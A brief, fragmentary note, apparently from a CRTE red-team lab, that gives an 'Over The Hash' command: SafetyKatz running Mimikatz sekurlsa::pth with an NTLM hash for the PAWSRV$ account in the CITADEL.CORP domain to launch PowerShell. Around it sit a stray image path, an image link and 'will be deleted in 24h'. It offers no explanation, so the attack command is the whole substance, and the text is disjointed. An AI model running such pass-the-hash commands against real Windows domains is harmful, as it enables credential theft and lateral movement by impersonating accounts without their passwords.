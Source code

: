 # CRTE Over The Hash command 22/1/2024
SafetyKatz.exe "sekurlsa::pth /user:PAWSRV$ /domain:CITADEL.CORP /ntlm:e19f980f68ca43cbb88bec510aaf4b44 /run:powershell.exe" 
![S555555555555555555555555](https://github.com/Testttter0X/Rubues-Overhash/assets/168090930/50c88e92-cf88-48a4-98b8-cfda4c698e2c)
will be deleted in 24h
